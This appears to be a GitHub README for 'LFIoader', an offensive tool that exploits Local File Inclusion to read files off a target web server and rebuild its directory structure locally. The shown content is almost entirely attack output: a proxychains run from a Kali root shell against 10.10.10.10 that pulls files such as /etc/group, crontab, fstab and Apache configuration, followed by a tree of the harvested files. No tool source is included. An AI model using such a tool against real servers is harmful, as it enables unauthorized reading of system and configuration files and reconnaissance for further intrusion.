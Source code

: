 # LFIoader

Enumerates readable file via Local File Inclusion and mimics the directory structure of the system beeing read. 

```bash
root@kali:/tmp# proxychains -q python lfi-check.py
[Succcess][/boot/grub/grub.cfg]
[Succcess][/etc/adduser.conf]
[Succcess][/etc/apache2/apache2.conf]
[Succcess][/etc/apache2/envvars]
[Succcess][/etc/apache2/mods-available/autoindex.conf]
[Succcess][/etc/apache2/mods-available/deflate.conf]
[Succcess][/etc/apache2/mods-available/dir.conf]
[...]


```bash
root@kali:/tmp/10.10.10.10-1660157015.3783913# tree
.
├── boot
│   └── grub
│       └── grub.cfg
├── etc
│   ├── adduser.conf
│   ├── apache2
│   │   ├── apache2.conf
│   │   ├── envvars
[...]
│   │   └── ports.conf
│   ├── avahi
│   │   └── avahi-daemon.conf
│   ├── bash.bashrc
│   ├── bluetooth
│   │   ├── input.conf
│   │   ├── main.conf
│   │   └── network.conf
│   ├── ca-certificates.conf
│   ├── ca-certificates.conf.dpkg-old
│   ├── crontab
│   ├── cups
│   │   └── cupsd.conf
│   ├── debconf.conf
│   ├── debian_version
│   ├── default
│   │   └── grub
│   ├── deluser.conf
│   ├── dhcp
│   │   └── dhclient.conf
│   ├── fstab
│   ├── fuse.conf
│   ├── group
[...]
│   │   ├── stat
│   │   └── status
│   └── version
├── usr
│   └── share
│       └── adduser
│           └── adduser.conf
└── var
    └── log
        └── Xorg.0.log
```

